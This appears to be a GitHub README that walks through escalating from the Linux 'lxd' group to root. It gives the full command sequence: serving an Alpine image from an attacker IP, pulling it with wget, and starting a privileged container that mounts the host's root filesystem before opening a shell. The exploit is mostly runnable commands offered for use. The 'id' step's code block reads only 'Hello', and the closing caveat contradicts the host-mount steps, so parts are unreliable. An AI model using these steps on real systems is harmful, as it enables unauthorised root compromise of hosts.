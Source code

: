 # Lxd-Privilege-Escalation-in-Linux
In this writeup we will cover how a member of a local “lxd” group can instantly escalate the privileges to root on the host operating system.


## Follow the Steps:
First, run the id command to check whether your user belongs to the lxd group or not.
```
Hello
```

If lxd is listed, then continue.

Download a this Alpine Linux container image from github.
```
git clone https://github.com/zaaraZiof0/Lxd-Privilege-Escalation-in-Linux.git
```

Now share this image file alphine-v3.13-x86_64-20210218_0139.tar.gz to the victim machine.
```
python3 -m http.server 80
```

Download the image file with wget command.
```
wget 10.8.9.235/alpine-v3.13-x86_64-20210218_0139.tar.gz
```

Now import this lxd container into lxd environment and give it an alias.
```
lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
```

Display a list of all the images stored in the local LXD image store
```
lxc image list
```

Now run the following command one by one.
```
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```

Navigate to /mnt/root to access the host's filesystem with root privileges
```
cd /mnt/root
```

Now here we have full control within the container.

### Note: Being root inside a container doesn’t automatically translate to having root access on the host system, as containers are designed to isolate processes.

## Happy Hacking…. | ZAARA

